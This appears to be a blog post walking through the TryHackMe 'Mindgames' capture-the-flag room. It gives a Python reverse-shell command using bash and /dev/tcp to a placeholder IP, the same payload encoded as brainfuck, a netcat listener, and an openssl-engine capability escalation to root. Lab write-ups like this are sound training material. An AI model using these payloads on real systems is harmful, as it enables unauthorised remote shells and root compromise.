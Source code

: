 ```yaml
---
author:
  name: "papadope"
date: 2020-12-01
linktitle: Mindgames
type:
- post
title: Mindgames
weight: 10
series:
- Tryhackme
---
```


![Room Image](/mindgames/room.png)

## Deploy

First of all, let’s deploy our machine. So click on the green deploy button if you haven’t done it already. Afterwards, to access the machine, you need to be inside TryHackMe network. So, get connected to THM VPN. We are not going to talk here about how can you connect to the VPN but there are awesome guides out there that can help you manage the frustration.

---

## Enumeration

![nmap](/mindgames/nmap.png)

I started a simple nmap scan just for the first 1000 ports. You can see that there is a HTTP port open. Let's visit it.

![http](/mindgames/http.png)

What I checked in that page before doing anything else : 

1. Source Code 
2. Networking / Requests / Responses
3. Links / Buttons / Tags

* Nothing there at least for now, so I continued my enumeration proccess.

* The thing here is that I already know what language that weird code is and it's called **brainfuck**. If you don't know what that language is simply *copy-paste* a small part of the code and google search it.

### Gobuster

Go buster here had nothing for as. Probably there is no hidded directory as I tried more than one lists.

That was the only result I found with the lists I tried.

![gobuster](/mindgames/gobust.png)

So I went back to the ``http`` we found earlier.

---

## HTTP

I copied the brainfuck code from there to [this](https://www.dcode.fr/brainfuck-language) site.

The thing we realise after doing that is that the **brainfuck** code is actually *python code*.

![decoded](/mindgames/decoded.png)

I understood that in the **Try before you buy** section you can paste a **brainfuck** code and it's going to be executed. In python. We can leverage that to spawn a Reverse Shell.

![trybub](/mindgames/trybub.png)

---

### Getting a reverse shell

I was searching for ways to execute python inside there.

I used this python code :

```

import os

os.system('bash -c "bash -i >& /dev/tcp/0.0.0.0/8888 0>&1"')

```

- Remember to change the IP on your TryHackMe VPN first.
- Remember to check that your listener is using the same port.

Before executing that code you need to get a netcat listener stand by waiting for the incoming connection.

```

nc -lvnp 8888

```

I found out that the only thing you need to do to get that Reverse Shell to work is to translate the **Python code** to **brainfuck** code. I achived that by using [this](https://copy.sh/brainfuck/text.html) site. If you are already using something else for that job, feel free to use it.

So get that python code and translate it to **brainfuck** as I am doing here :

```

+[----->+++<]>++.++++.+++.-.+++.++.[---->+<]>+++.+++++[->+++<]>.++++.>++++++++++..-[------->+<]>.++++.+[++>---<]>.[--->++<]>-.++++++.------.+.+++[->+++<]>.++++++++.+++[++>---<]>.-.-[--->+<]>.-.--[--->+<]>--.-----------.--[--->+<]>--.--[-->+++<]>.-[--->+<]>-.[--->+<]>-.++.-[->+++<]>-.-.--[--->+<]>--.-----------.--[--->+<]>--.--[-->+++<]>.[--->+++++++<]>.[--->+<]>---.-[->++<]>.--[--->++<]>--.------.[-->+++<]>-.[--->+<]>-.+.[--->+<]>-.[++>---<]>--.-[--->++<]>.++[->+++<]>+.+++++++++++++.[->+++++<]>-.+.--.++.--.++.--.++.-.+++++++++....[-->+<]>++++.[-->+++<]>.+[----->+<]>+.--[--->++<]>--.+++++++++++.++[--->++<]>.+++++.++.

```

- Notice that this code is not going to work for you. You need to set it up for your VPN IP and the port you want first.

And we got it!

![trybub](/mindgames/shell.png)


---

## Root

I prefer to do things manually. Sometimes, when you need to practice your skills, it's the best way to remember some basic commands on basic enumeration.

So for the user **mindgames** I started the enumeration process checking for *suid*, *cronjobs*, *passwords*, *bash-history*, *processes*, *sudo*, *capabilities*, etc.

The first thing I notice was that there where some interesting caps I could exploit.

Command : 

``getcap / -r 2>/dev/null``

Result : 

![caps](/mindgames/caps.png)

After running **Linpeas.sh** I verified that I could actually proceed with that. I visited the most useful website about binaries and that is [GTFObins](https://gtfobins.github.io/gtfobins/).

I saw that you can actually build a malicious library and execute arbitary code, in our case we want a shell. After googling how I could create my own engine I found out [this](https://www.openssl.org/blog/blog/2015/10/08/engine-building-lesson-1-a-minimum-useless-engine/) site. Simple guide on how to create an engine with openssl. I opened an editor inside my machine and wrote a simple c program to get a shell when it executes.

![c](/mindgames/c.png)

I compilled it and made it shared after the compile was ready.

``gcc -fPIC -o test.o -c test.c``

``gcc -shared -o test.so -lcrypto test.o``

Started a python server to get it inside the **/tmp** directory on the target server.

![tmp](/mindgames/tmp.png)

---

I used the way GTFObins had already for me. I executed the command :

``openssl req -engine ./test.so``

- My file name is test, you can name it however you want.
- I found another way to do that later, in my opinion you should try to find out more than one ways of doing things.

![root](/mindgames/root.png)

Thank you very much for reading.